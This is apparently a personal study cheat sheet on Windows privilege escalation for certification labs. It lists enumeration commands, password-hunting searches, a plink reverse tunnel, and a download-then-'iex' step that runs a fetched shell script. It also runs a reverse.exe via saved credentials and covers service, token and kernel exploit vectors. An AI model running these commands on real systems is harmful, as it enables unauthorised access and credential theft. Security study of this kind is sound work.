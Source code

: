```yaml
---
description: >-
  at the end of the day, you have to picture the way. these tools can only guide
  you so much
---
```


# Windows PrivEsc

HKCU - Current User\
HKLM - Local Machine

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %}
Whole picture + Weak Services
{% endembed %}

{% embed url="https://benheater.com/thm-windows-privesc/" %}
No nonsense - straight to business
{% endembed %}

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/" %}
Weak Registry
{% endembed %}

Watch out for ADS (Alternate data streams) - good way to hide data (`dir /r` lists it out for you)&#x20;

Host file -`C:\Windows\System32\drivers\etc\hosts`

## Commands

```
findstr /B /C "string" - grep basically
certutil -urlcache -f http://$IP/$PATH_TO_FILE - wget basically
searchsploit <keyword> - search for exploits here instead of google first lmao
searchsploit -m $ID - gets exploit code/script from db
icacls - ACL to files/directories
where /R c:\windows bash.exe

iwr -Uri "[file_url]" -OutFile "$env:TEMP\[file]"; 
iex "$env:TEMP\shell.ps1"
```

if psexec dont work, smbexec.py (half shell) or wmiexec

### Basic Info gathering

```
systeminfo - (ready exploits might be there for outdated versions)
wmic qfe - check patch history (wmi - windows management instrumentation command line quick fix engineering)
wmic logicaldisk get caption,description,providername
```

#### User Enumeration

```
whoami /priv /groups
net user (lists users on system)
net user $username - lists all relavant info of that user
net localgroup $groupname
```

#### Network Enumeration

```
ipconfig
arp -a
netstat -ano 
```

#### Password Hunting (Can automate)

```
findstr "/si password *.txt (look for string "password" in any txt file) 
```

#### AV Enumeration

```
sc query windefend
sc query <query> see what services are running
netsh advfirewall firewall dump
netsh firewall show state/config
```

## Automated Enumeration

#### GO TO

* winPEAS.exe
* PowerUp.ps1
* SharpUp.exe
* Rubeus.exe
* Certify.exe

#### TO BE SOON

* Seatbelt.exe
* Watson.exe
* Sherlock.ps1
* jaws-enum.ps1
* windows-exploit-suggester.py

Sherlock looks for a set of CVEs most famous

## Passwords and Port Forwarding

```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

Password exploits

* Saved creds
* Registry - The registry can be searched for keys and values that contain the word "password":
* SAM (Security Account Manager)
* Pass the hash

```
cmdkey /list
runas /savecred /user:username C:\PrivEsc\reverse.exe
```

## Service Exploits

* Insecure Service Permissions
* Unquoted Service Path&#x20;
* Weak Registry Permissions (If writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc #check perms
sc qc daclsvc
```

## WSL

not sure if i need it at this point in time so do come back and check up

## Token Impersonation

like cookies for your computer

* Delegate - created for logging into machine or RDP
* Impersonate - "non-interactive" such as attaching network drive or domain login script&#x20;

```
whoami /priv 
```

msfvenom to generate powershell payload, check how to do it wo meterpreter tho

**getsystem** - Magic way to become Admin, DO NOT SPAM

3 methods

* Named Pipe impersonation (In memory/admin)
* Named Pipe impersonation (Dropper/admin) - most risky, will be flagged by AV cus inserting dll into disk
* Token Impersonation (In memory/admin) - Needs SeDebugPriveleges

## Kernel Exploits

Most basic zero skill vector - this why make sure your systems are always updated

windows-exploit-suggester.py does bitsss (update db before using tho, run locally: feed it systeminfo data and it will run it against its db)

it has exploits for diff builds of windows

MS10-059 and others very popular: focus on privelege escalation vulns mentioned&#x20;

## Further ones to watch

* Executable Files - \[Ben `AlwaysInstallElevated`]
* Startup Applications - \[Ben `Autorun`]
* DLL Hijacking - \[Ben DLL]

